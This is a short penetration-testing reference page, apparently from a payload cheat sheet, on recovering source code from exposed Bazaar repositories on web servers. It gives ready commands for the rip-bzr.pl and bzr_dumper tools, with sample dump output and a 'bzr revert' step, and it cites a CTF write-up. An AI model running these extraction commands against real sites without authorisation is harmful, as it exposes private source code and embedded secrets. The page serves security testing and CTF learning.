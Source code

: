 # Bazaar

> Bazaar  (also known as bzr ) is a free, distributed version control system (DVCS) that helps you track project history over time and collaborate seamlessly with others. Developed by Canonical, Bazaar emphasizes ease of use, a flexible workflow, and rich features to cater to both individual developers and large teams.


## Summary

* [Tools](#tools)
    * [rip-bzr.pl](#rip-bzrpl)
    * [bzr_dumper](#bzr_dumper)
* [References](#references)


## Tools

### rip-bzr.pl

* [kost/dvcs-ripper/rip-bzr.pl](https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl)
    ```powershell
    docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
    ```

### bzr_dumper

* [SeahunOh/bzr_dumper](https://github.com/SeahunOh/bzr_dumper)

```powershell
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish
```

```powershell
bzr revert
 N  application.py
 N  database.py
 N  static/
```

## References

- [STEM CTF Cyber Challenge 2019 – My First Blog - m3ssap0 / zuzzur3ll0n1 - March 2, 2019](https://ctftime.org/writeup/13380)